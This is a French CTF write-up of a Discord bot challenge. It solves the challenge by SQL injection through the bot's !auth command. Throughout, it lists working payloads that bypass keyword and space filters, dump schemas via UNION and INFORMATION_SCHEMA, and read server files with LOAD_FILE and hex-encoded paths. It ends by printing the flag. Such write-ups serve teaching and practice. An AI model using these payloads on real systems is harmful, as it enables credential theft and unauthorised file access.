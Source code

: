 # Hacker Bot 🤖🔍
```
1000 pts
```

## Description
```
[FR]
Ne laisse nulle part où la main ne passe et ne repasse, fouille et refouille. Va et discute avec le bot hacker_bot#4249 en dm et ramène-nous ce fameux trésor qu'il cache.

[EN]
Leaves nowhere where the hand does not pass and iron, search and re-search. Go and chat with the bot hacker_bot#4249 in dm and bring us back this famous treasure he is hiding.
```

> Ce challenge nous demande de discuter avec un bot. En voyant le nom du bot, nous avons déduit qu'il s'agissait d'un bot Discord. La première chose à faire était de lui envoyer un message privé. En regardant dans le channel Discord, nous avons retrouvé le moment où le bot a été ajouté, nous pouvions alors lui envoyer un message.

<image src="../Web/File/bot1.png">
  
> On essaie de lui envoyer un message pour voir comment il réagit. Le bot répond en nous demandant d'utiliser *!help* pour avoir la liste des commandes.

<image src="../Web/File/bot2.png">

> En utilisant la commande *!help*, on remarque que le bot ne prend qu'une seule commande supplémentaire, qui est la commande *!auth*, permettant de s'authentifier en tant qu'admin.

<image src="../Web/File/bot3.png">

> On a donc décidé d'envoyer un simple password à *!auth* pour voir le comportement du bot. On obtient comme réponse *Error: Minuscule hacker, filters catch you.*

> Des filtres sont donc mis sur l'input de l'utilisateur, ce qui nous a fait penser à de l'injection SQL, puisqu'il s'agit d'un système d'authentification.

>On a donc envoyé un simple payload ```!auth admin' or 1=1#```, mais on obtient comme erreur *Error: You provide more than One password*.

> Notre payload ne doit donc pas contenir des espaces puisque le bot n'accepte pas plus d'un password.
> Nous avons trouvé un moyen astucieux de contourner ce filtre sur les espaces en passant notre payload comme un string en utilisant ""🙂.
 
> Notre payload devient alors ```!auth "admin' or 1=1#"```, mais on obtient toujours une erreur *Error: Minuscule hacker, filters catch you*.🙁
> On a donc déduit que les commandes SQL étaient filtrées. Nous avons alors décidé d'utiliser *OR* à la place de *or* en utilisant *!auth admin' OR 1=1#*.

> En faisant cela, on obtient un autre type d'erreur *Error: More than one password found for admin, Is impossible*, ce qui veut dire que le payload est passé mais a renvoyé plus d'une ligne. On a donc utilisé LIMIT pour afficher la première ligne. ```!auth "admin' OR 1=1 LIMIT 1#"```

 <image src="../Web/File/bot4.png">

 > 😎 On arrive à obtenir une sortie des informations d'un utilisateur. Nous allons maintenant utiliser OFFSET pour afficher les lignes qui suivent. ```!auth "admin' OR 1=1 LIMIT 1 OFFSET 1#"```.

<image src="../Web/File/bot5.png">
  
> 🥳 Bingo ! On obtient les informations sur l'admin ainsi que son mot de passe. Le mot de passe semblait être encodé, nous avons donc décidé d'utiliser CyberChef pour le décoder.

<image src="../Web/File/bot6.png">

> 😅 Il ne s'agit pas du flag, c'est juste un message qui dit que le flag n'est pas dans cette base de données. Il faut alors chercher dans les bases de données pour trouver le bon flag.

> On est alors parti sur l'attaque par l'union pour dumper les informations de la base de données.

> La première étape de l'attaque par l'union est de déterminer le nombre de colonnes que renvoie la première requête SQL. Après avoir cherché à partir du nombre 1 de colonne. ```!auth "'UNION SELECT 1#"```, ```!auth "'UNION SELECT 1,2#"```, ```!auth "'UNION SELECT 1,2,3#"```, ```!auth "'UNION SELECT 1,2,3,4#"```

<image src="../Web/File/bot7.png">

> Nous avons finalement trouvé le nombre de colonnes que renvoyait la requête. (5 colonnes)

<image src="../Web/File/bot8.png">

> La deuxième étape est de déterminer la base de donnée dans laquelle on se trouve. ```!auth "'UNION SELECT 1,DATABASE(),3,4,5#"```

<image src="../Web/File/bot9.png">
  
> Le faux flag nous faisait comprendre que le flag ne se trouvait pas dans cette base de données. Nous avons utilisé INFORMATION_SCHEMA pour déterminer les noms des autres bases de données. ```!auth "'UNION SELECT 1,SCHEMA_NAME,2,3,4 FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1#"```

<image src="../Web/File/bot10.png">

> ```!auth "'UNION SELECT 1,SCHEMA_NAME,2,3,4 FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1 OFFSET 1#"```

<image src="../Web/File/bot11.png">
  
> ```!auth "'UNION SELECT 1,SCHEMA_NAME,2,3,4 FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1 OFFSET 4#"```

<image src="../Web/File/bot12.png">
  
> ```!auth "'UNION SELECT 1,SCHEMA_NAME,2,3,4 FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1 OFFSET 5#"```

<image src="../Web/File/bot13.png">
  
> ```!auth "'UNION SELECT 1,SCHEMA_NAME,2,3,4 FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1 OFFSET 6#"```

<image src="../Web/File/bot14.png">
  
> ```!auth "'UNION SELECT 1,SCHEMA_NAME,2,3,4 FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1 OFFSET 7#"```

<image src="../Web/File/bot15.png">

> ```!auth "'UNION SELECT 1,SCHEMA_NAME,2,3,4 FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 1 OFFSET 8#"```

<image src="../Web/File/bot16.png">

> On arrive à trouver toutes les autres bases de données *flag2*, *flag4*, *flag6*, *flag8*. L'objectif maintenant est de chercher dans ces différentes bases de données le flag. L'étape suivante est de chercher les différentes tables de ces bases de données. ```!auth "'UNION SELECT 1,TABLE_NAME,2,3,4 FROM INFORMATION_SCHEMA.TABLES WHERE TABLE_SCHEMA='flag2'#"```

<image src="../Web/File/bot17.png">
  
> Chacune des bases de données *flagx* contient une seule table, la table *fake_flag*. Nous avons ensuite cherché les colonnes de chacune de ces tables. ```*!auth "'UNION SELECT 1,COLUMN_NAME,2,3,4 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='flag2' AND TABLE_NAME='fake_flag' LIMIT 1#"```

<image src="../Web/File/bot21.png">
  
```!auth "'UNION SELECT 1,COLUMN_NAME,2,3,4 FROM INFORMATION_SCHEMA.COLUMNS WHERE TABLE_SCHEMA='flag2' AND TABLE_NAME='fake_flag' LIMIT 1 OFFSET1#"```

<image src="../Web/File/bot22.png">

> La table *fake_flag* contient deux colonnes, la colonne *id* et *flag*. Nous avons donc une structure des tables et colonnes des base de données *flagx*.

> Par la suite, nous avons affiché les différentes informations des colonnes.
```!auth "'UNION SELECT 1,flag,2,3,4 FROM flag2.fake_flag#"```

<image src="../Web/File/bot23.png">
  
> La base de donnée *flag2* ne nous donne rien 😢, on continue. ```!auth "'UNION SELECT 1,flag,2,3,4 FROM flag4.fake_flag#"```

<image src="../Web/File/bot24.png">

> La base de donnée *flag4* nous dit que le flag n'est dans aucune base de donnée 😩.
```!auth "'UNION SELECT 1,flag,2,3,4 FROM flag6.fake_flag#"```

<image src="../Web/File/bot25.png">

> La base de donnée *flag6* nous dit que le flag est caché sur le système.
```!auth "'UNION SELECT 1,flag,2,3,4 FROM flag6.fake_flag#"```

<image src="../Web/File/bot26.png">

> La base de donnée *flag8* nous donne le nom du fichier du flag *.flaaag* sur le système 😮‍💨.
> Il nous faut lire le fichier flag sur le système. La fonction SQL *LOAD_FILE()* permet de lire des fichiers.
```!auth "'UNION SELECT 1,LOAD_FILE('.flaaag'),2,3,4#"```

<image src="../Web/File/bot27.png">

> 🤣 Le nom flaaag est filtré. Nous avons trouvé un moyen de contourner ce filtre en encodant le nom en hexadécimal.
```!auth "'UNION SELECT 1,LOAD_FILE(0x2e666c61616167),2,3,4#"```

<image src="../Web/File/bot28.png">

> 😫 Toujours rien. On a finalement compris qu'il fallait chercher dans un répertoire spécifique.

> Après quelques recherches, nous avons trouvé la variable *@@secure_file_priv* qui détermine le répertoire où l'utilisateur MySQL peut enregistrer des fichiers. On affiche par la suite cette variable pour voir où se trouve le fichier flag.
```!auth "'UNION SELECT 1,@@secure_file_priv,2,3,4#"```

<image src="../Web/File/bot29.png">

> Nous avons encodé tout le chemin absolu du flag */var/lib/mysql-files/.flaaag* en hexadécimal.

<image src="../Web/File/bot30.png">
  
> On obtient finalement le flag 🥳😎.

# FLAG

```CTF_O0o0o0uups5sSSs5sS5s_my_bO7_Wu1Ner@bL3_7O_5q1_Inj3ct!oN_4nd_YoU_r34d_My_fl@g_heheheh```
